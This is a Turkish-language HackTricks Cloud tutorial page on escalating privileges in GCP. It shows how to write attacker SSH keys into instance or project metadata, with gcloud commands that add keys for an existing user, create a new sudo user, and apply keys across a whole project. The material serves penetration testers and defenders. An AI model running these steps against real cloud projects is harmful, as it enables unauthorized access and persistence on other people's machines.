 # GCP - Özel SSH Meta Verisi Ekleme

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family)
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* Hacking hilelerinizi göndererek HackTricks ve HackTricks Cloud github reposuna **PR göndererek** hilelerinizi paylaşın.

</details>

## Meta verisinin değiştirilmesi <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Bir örneğin meta verilerinin değiştirilmesi, **bir saldırganın gerekli izinlere sahip olması durumunda önemli güvenlik risklerine yol açabilir**.

### **Özel Meta Verilerine SSH Anahtarlarının Eklenmesi**

GCP'de, **Linux sistemleri** genellikle [Google Compute Engine için Python Linux Konuk Ortamı](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) tarafından betikler çalıştırır. Bunun önemli bir bileşeni, **yetkilendirilmiş SSH genel anahtarlarının güncellemelerini düzenli olarak kontrol etmek** için örnek meta veri uç noktasını denetleyen [hesaplar daemonu](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)'udur.

Bu nedenle, bir saldırgan özel meta verileri değiştirebilirse, daemon yeni bir genel anahtar bulacak ve bu anahtar **yerel sisteme entegre edilecektir**. Anahtar, mevcut bir kullanıcının `~/.ssh/authorized_keys` dosyasına veya anahtarın biçimine bağlı olarak **sudo ayrıcalıklarına sahip yeni bir kullanıcı oluşturulmasına** eklenecektir. Ve saldırgan, ana bilgisayarı ele geçirebilecektir.

### **Varolan ayrıcalıklı kullanıcıya SSH anahtarı eklemek**

1. **Örnekteki Varolan SSH Anahtarlarını İnceleyin:**
- Örneği ve meta verilerini açıklayan komutu çalıştırarak mevcut SSH anahtarlarını bulun. İlgili bölüm çıktıda `metadata` altında olacak, özellikle `ssh-keys` anahtarı.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- SSH anahtarlarının biçimine dikkat edin: kullanıcı adı, iki nokta üst üste ile ayrılan anahtarın önünde yer alır.

2. **SSH Anahtar Meta Verisi İçin Bir Metin Dosyası Hazırlayın:**
- Kullanıcı adlarının ve bunlara karşılık gelen SSH anahtarlarının ayrıntılarını `meta.txt` adlı bir metin dosyasına kaydedin. Bu, yeni anahtarları eklerken mevcut anahtarları korumak için önemlidir.

3. **Hedef Kullanıcı İçin Yeni Bir SSH Anahtarı Oluşturun (bu örnekte `alice`):**
- Yeni bir SSH anahtarı oluşturmak için `ssh-keygen` komutunu kullanın ve yorum alanının (`-C`) hedef kullanıcı adıyla eşleştiğinden emin olun.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Yeni genel anahtarı, örneğin meta verilerinde bulunan formata benzeyerek `meta.txt`'ye ekleyin.

4. **Örneğin SSH Anahtar Meta Verisini Güncelleyin:**
- Güncellenmiş SSH anahtar meta verisini `gcloud compute instances add-metadata` komutunu kullanarak örneğe uygulayın.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Yeni SSH Anahtarı Kullanarak Örneğe Erişin:**
- Yeni anahtar kullanarak SSH ile örneğe bağlanın ve hedef kullanıcının bağlamında kabuğa erişin (bu örnekte `alice`).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Yeni bir ayrıcalıklı kullanıcı oluşturun ve bir SSH anahtarı ekleyin**

Eğer ilginç bir kullanıcı bulunamazsa, `sudo` ayrıcalıklarına sahip yeni bir kullanıcı oluşturmak mümkündür:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Proje düzeyinde SSH anahtarları <a href="#sshing-around" id="sshing-around"></a>

Bir bulut ortamında **proje düzeyinde SSH erişimini genişletmek** için SSH anahtarlarını proje düzeyine uygulamak mümkündür. Bu yaklaşım, proje genelinde SSH erişimine izin veren herhangi bir örneğe SSH erişimine olanak tanır. İşte özetlenmiş bir rehber:

1. **Proje Düzeyinde SSH Anahtarları Uygulama:**
- `gcloud compute project-info add-metadata` komutunu kullanarak `meta.txt` dosyasındaki SSH anahtarlarını projenin meta verilerine ekleyin. Bu işlem, SSH anahtarlarının projedeki tüm örneklerde tanınmasını sağlar, ancak bir örnekte "Proje genelinde SSH anahtarlarını engelle" seçeneği etkinleştirilmişse bu durum geçerli olmaz.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Proje Genelinde Anahtarları Kullanarak Örneklerde SSH Yapma:**
- Proje genelinde SSH anahtarları kullanıldığında, projenin herhangi bir örneğine SSH yapabilirsiniz. Proje genelinde anahtarları engellemeyen örnekler, SSH anahtarını kabul ederek erişim sağlar.
- Bir örneğe doğrudan SSH yapmanın bir yolu, `gcloud compute ssh [ÖRNEK]` komutunu kullanmaktır. Bu komut, mevcut kullanıcı adınızı ve projenin düzeyinde ayarlanan SSH anahtarlarını kullanarak erişim denemesi yapar.


# Referanslar
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da** takip edin.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek** paylaşın.

</details>
